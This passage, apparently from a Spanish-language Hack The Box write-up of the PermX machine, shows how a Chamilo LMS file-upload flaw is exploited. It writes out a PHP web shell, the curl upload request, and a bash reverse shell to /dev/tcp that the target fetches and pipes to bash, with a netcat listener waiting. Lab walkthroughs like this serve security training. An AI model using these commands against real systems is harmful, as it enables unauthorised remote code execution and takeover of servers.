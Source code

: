 Una forma de conseguir acceso al sistema sería compartiendo un `index.html` que contenga una reverse shell en bash.

```
/home/kali/Documents/htb/machines/permx:-$ echo '<?php system($_GET["cmd"]); ?>' > rce2.php

/home/kali/Documents/htb/machines/permx:-$ curl -F 'bigUploadFile=@rce2.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported
The file has successfully been uploaded.

/home/kali/Documents/htb/machines/permx:-$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce2.php?cmd=whoami'
www-data

/home/kali/Documents/htb/machines/permx:-$ echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.3/4443 0>&1' > index.html
```

Luego de crear el archivo `index`, levanto un servidor con Python para compartir el archivo.

Ejecutando un curl hacia mi IP, la página `lms.permx.htb` accede correctamente al archivo.

```terminal
/home/kali/Documents/htb/machines/permx:-$ python3 -m http.server 80

/home/kali/Documents/htb/machines/permx:-$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce2.php?cmd=curl+10.10.16.3'
```

![](/assets/img/htb-writeup-permx/permx7.png)

Solo queda ponerme a la escucha con Netcat y lanzar el curl nuevamente, agregándole al final el comando bash para que se ejecute la reverse shell.

```terminal
/home/kali/Documents/htb/machines/permx:-$ nc -lvnp 4443

/home/kali/Documents/htb/machines/permx:-$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce2.php?cmd=curl+10.10.16.3|bash'
```

